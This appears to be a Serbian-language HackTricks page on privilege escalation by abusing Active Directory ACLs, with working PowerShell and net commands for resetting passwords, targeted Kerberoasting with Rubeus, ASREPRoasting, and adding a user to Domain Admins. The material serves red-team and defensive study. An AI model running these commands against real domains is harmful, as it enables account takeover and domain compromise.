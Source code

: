 # Abusing Active Directory ACLs/ACEs

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

**Ova stranica je uglavnom sažetak tehnika sa** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) **i** [**https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges)**. Za više detalja, proverite originalne članke.**

## **GenericAll Prava na Korisnika**

Ovo ovlašćenje daje napadaču potpunu kontrolu nad korisničkim nalogom. Kada se potvrde `GenericAll` prava korišćenjem `Get-ObjectAcl` komande, napadač može:

* **Promeniti Lozinku Mete**: Korišćenjem `net user <korisničko_ime> <lozinka> /domain`, napadač može resetovati korisnikovu lozinku.
* **Ciljani Kerberoasting**: Dodeliti SPN korisničkom nalogu kako bi bio kerberoastable, zatim koristiti Rubeus i targetedKerberoast.py da izvuče i pokuša da dešifruje heševe tiketa za dodelu karata (TGT).

```powershell
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:<username> /nowrap
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```

* **Ciljano ASREPRoasting**: Onemogućite predautentikaciju za korisnika, čime se njihov nalog čini ranjivim na ASREPRoasting.

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

## **GenericAll Prava na Grupu**

Ova privilegija omogućava napadaču da manipuliše članstvom u grupi ako ima `GenericAll` prava na grupu poput `Domain Admins`. Nakon identifikacije razlikovnog imena grupe pomoću `Get-NetGroup`, napadač može:

* **Dodati Sebe u Grupu Domain Admins**: Ovo se može uraditi direktnim komandama ili korišćenjem modula poput Active Directory ili PowerSploit.

```powershell
net group "domain admins" spotless /add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
